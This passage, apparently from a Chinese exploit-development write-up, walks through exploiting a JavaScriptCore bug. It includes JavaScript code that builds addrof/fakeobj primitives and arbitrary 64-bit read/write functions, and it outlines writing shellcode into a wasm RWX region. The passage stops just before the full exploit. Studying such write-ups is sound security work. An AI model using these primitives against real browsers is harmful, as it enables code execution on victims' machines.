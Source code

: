 （2）申请一个 ArrayWithContiguous（对象类型）的数组 boxed，和第一步一样，将 driver[1] 覆盖成 boxed object 地址就可以通过 victim[1] 对 boxed object 的 butterfly 进行操作。将第一步泄露的 unboxed object butterfly 内容填充到 boxed object 的 butterfly，这样两个对象操作的就是同一个 butterfly，可以方便构造新的 addrof 和 fakeobj 原语。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201225182809-e2594e4c-469b-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201225182809-e2594e4c-469b-1.png)

代码如下：

```
var boxed = [{}];
driver[1] = boxed;
victim[1] = sharedButterfly;

function NewAddrOf(obj) {
    boxed[0] = obj;
    return f2i(unboxed[0]);
}

function NewFakeObj(addr) {
    unboxed[0] = i2f(addr);
    return boxed[0];            
}


```

（3）将 driver object 的类型修改成浮点型数组类型，将 victim object 的 butterfly 修改成 target_addr+0x10，因为 butterfly 是指向 length 和 elem0 中间，而属性 1prop 位于 butterfly-0x10 的位置，访问 victim.prop 相当于访问 butterfly-0x10 =（target_addr+0x10）-0x10=target_addr。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201225182842-f6309a10-469b-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201225182842-f6309a10-469b-1.png)

所以通过读写 victim.prop 就可以实现任意地址的读写，代码如下：

```
function Read64(addr) {
    driver[1] = i2f(addr+0x10);
    return NewAddrOf(victim.prop);
}

function Write64(addr, val) {
    driver[1] = i2f(addr+0x10);
    victim.prop = i2f(val);
}


```

### 任意代码执行

和 v8 的利用相似，通过任意读查找 wasm_function 中 rwx 区域，通过任意写将 shellcode 写入该区域即可执行任意代码。

完成 exp 代码如下（适配 debug 版本）：
